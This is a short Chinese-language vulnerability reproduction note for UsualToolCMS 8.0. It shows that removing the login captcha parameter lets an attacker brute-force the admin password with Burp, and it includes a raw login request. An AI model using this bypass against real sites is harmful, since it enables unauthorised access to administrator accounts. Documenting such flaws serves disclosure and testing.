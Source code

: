 # UsualToolcms 8.0 绕过后台验证码爆破

### 一、漏洞简介

可通过删除验证码参数，进行暴力破解

### 二、漏洞影响

UsualToolCMS-8.0-Release

### 三、复现过程

漏洞点:`http://url/cmsadmin/`

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

1.默认情况下登陆数据包

![](images/15893736623417.png)


![](images/15893736665051.png)


删除ucode参数和cookie后登陆，直接登陆成功

![](images/15893736732312.png)


通过burp爆破后台密码

![](images/15893736795856.png)


![](images/15893736830598.png)



```bash
POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
Host: 1277.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

uuser=admin&upass=admin
```